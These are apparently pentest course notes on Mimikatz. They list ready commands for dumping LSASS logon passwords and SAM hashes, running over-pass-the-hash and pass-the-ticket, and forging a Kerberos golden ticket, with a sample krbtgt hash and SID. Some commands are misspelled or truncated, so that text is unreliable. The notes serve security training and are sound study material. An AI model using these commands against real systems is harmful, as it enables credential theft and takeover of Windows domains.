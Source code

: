 # Mimikatz
The de factor blackhat/whitehat credential manipulation tool.
Post exploitation tool to retrieve/handle credentials in various formats.
https://adsecurity.org/?page_id=1821 (unofficial guide)

## Basics
- reads from LSASS memory to retrieve AD credentials
    - Cleartext passwords (depends on Windows version and GPO settings)
    - NTLM hashes ("pass-the-hash" and "pass-the-ticket")
    - Kerberos (build custom (golden) tickets)
- reads from SAM process to retrieve local credentials (same/similar to LSASS)
- needs to be run as admin (or better needs the debug "SeDebugPrivilege" priviledge) and elevated high (UAC)

*Remark: we could also get a memory dump via Task Manager !!!(without Mimikatz)*

**Extract credentials (SAM + LKSASS)**
-> see pdf "05F Credential Abuse.pdf"

**DCSync**
Replicating directly from domain controller. Simulate a DC asking another DC to replicate one or more object incl. credentials
Requires specific privileges.

**Other**
- impersonating tokens
- -> see pdf "05F Credential Abuse.pdf"

## Dump Logon passwords from Lsass.exe 

1. `.\mimikatz.exe`  -> start mimikatz prompt
2. `privilege::debug` -> aquire debug privilege to spy into other processes (which we have to be admin)
    - expected response: "Privilege '20' OK"
3. `log my_log.txt` -> enable logging (highly recommended)
4. `sekurlsa::logonpasswords` ->  retrieve our credentials
    - Check the output for NTLM hash


## Dump local passward from SAM
1. If mimikatz is not started yet: `.\mimikatz.exe` 
2. `token::elevate` -> elevate our permissions to SYSTEM  (see UAC levels, needed for SAM)
3. if not done before: `log my_log.txt` -> enable logging (highly recommended)
3. `lsadump::sam` -> will dump content SAM
    - Check the output for NTLM hash


## Kerbersos 
**Over-pass-the-hash**
1. `.\mimikatz.exe`  -> start mimikatz prompt
2. `privilege::debug` -> aquire debug privilege to spy into other processes (which we have to be admin)
3. `seurlsa::pth /user:Administrator /domain:chocolate.locl /ntlm.cc36.....`

**Pass-the-ticket**
Something like: 
- "sekurlsa::tickets [/export]"  -> see pdf
- kerberos::ptt path/to/ticket.kirbi -> see pdf

**Golden/Silver ticket** 
Golden ticket: `mimikatz kerberos::golden /user:dfm /domain:testlab.local /sid:S-1-5-21-883232822-274137685-4173207997 /krbtgt:b3c87251042db43980ef7607733fda72 /ptt`  (via Cobal strike, see pdf)

Silver ticket is similar just for a specific service.